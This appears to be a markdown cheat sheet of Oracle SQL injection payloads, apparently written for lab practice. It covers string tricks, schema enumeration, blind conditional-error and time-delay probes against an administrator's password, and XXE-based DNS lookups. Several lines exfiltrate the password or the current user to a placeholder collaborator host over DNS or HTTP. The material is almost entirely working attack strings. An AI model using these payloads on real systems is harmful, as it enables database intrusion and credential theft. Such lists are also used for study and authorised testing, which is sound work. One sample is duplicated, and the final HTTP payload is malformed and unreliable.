 ## summary

Useful SQL commands for oracle dbms

## string concatenation
`'foo'||'bar'`

## substring
`SUBSTR('foobar',4,2)`

## comments
`--comments`

`/*comments*/`

## database version
`select banner from v$version`

`select version from v$instance`

## database contents
`select table_name from all_tables`

`select column_name from all_tab_columns where table_name = 'TABLE NAME HERE'`

## conditional errors
`select case when (YOUR-CONDITION-HERE) then to_char(1/0) else null end from dual`

### samples
`xyz' and (select case when(1=1) then to_char(1/0) else 'a' end from users where username='administrator2')='a'--`

`xyz' and (select case when (length(password)=20) then to_char(1/0) else 'a' end from users where username='administrator')='a'--`

`xyz' and (select case when (length(password)=20) then to_char(1/0) else 'a' end from users where username='administrator')='a'--`

## batched (or stacked) queries
does not support batched queries

## time delays
`dbms_pipe.receive_message(('a'),10)`

## conditional time delays
`select case when (YOUR-CONDITION-HERE) then 'a'||dbms_pipe.receive_message(('a'),10) else null end from dual`

## dns lookup
### technique 1
The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched oracle installations in existence.

`select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-COLLABORATOR.burpcollaborator.net"> %remote;]>'),'/l') FROM dual`

#### samples
`xyz' union select extractvalue(xmltype('<?xml+version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://YOUR-COLLABORATOR.burpcollaborator.net/"> %25remote%3b]>'),'/l') from dual--`

### technique 2
The following technique works on fully patched oracle installations, but requires elevated privileges.

`select UTL_INADDR.get_host_address('YOUR-COLLABORATOR.burpcollaborator.net')` 

## dns lookup with data exfiltration
`select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-COLLABORATOR.burpcollaborator.net"> %remote;]>'),'/l') from dual`

#### samples
`xyz' union select extractvalue(xmltype('<?xml+version="1.0"+encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||password||'.YOUR-COLLABORATOR.burpcollaborator.net"> %25remote%3b]>'),'/l') from users where username='administrator'--`

## http request with data exfiltration
`UTL_HTTP.request('YOUR-COLLABORATOR.burpcollaborator.net:80'||(select user from dual)--`



